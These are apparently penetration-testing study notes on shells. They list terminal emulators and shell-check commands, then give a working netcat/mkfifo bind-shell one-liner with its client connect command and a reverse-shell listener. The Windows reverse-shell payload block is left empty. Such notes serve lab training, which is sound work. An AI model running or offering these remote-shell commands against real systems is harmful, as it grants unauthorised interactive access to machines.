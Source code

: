 # Terminal Emulator

| Terminal Emulator | Operating System          |
| ----------------- | ------------------------- |
| Windows Terminal  | Windows                   |
| cmder             | Windows                   |
| PuTTY             | Windows                   |
| kitty             | Windows, Linux, and MacOS |
| Alacritty         | Windows, Linux, and MacOS |
| xterm             | Linux                     |
| GNOME Terminal    | Linux                     |
| MATE Terminal     | Linux                     |
| Konsole           | Linux                     |
| Terminal          | MacOS                     |
| iTerm2            | MacOS                     |
#### Shell Validation From 'ps'
```shell
ps
```
#### Shell Validation Using 'env'
```shell
env
```
# Bind Shells
![[bindshell.png]]
#### No. 1: Server - Binding a Bash shell to the TCP session
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.201.134 7777 > /tmp/f
```
#### No. 2: Client - Connecting to bind shell on target
```shell
nc -nv 10.129.41.200 7777
```
# REVERSE SHELL
![[reverse-shell.png]]
## Simple Reverse Shell in Windows
#### Server (Attacker)
```shell
sudo nc -lvnp 443
```
#### Client (target)
###### Reverse Shell
```cmd
```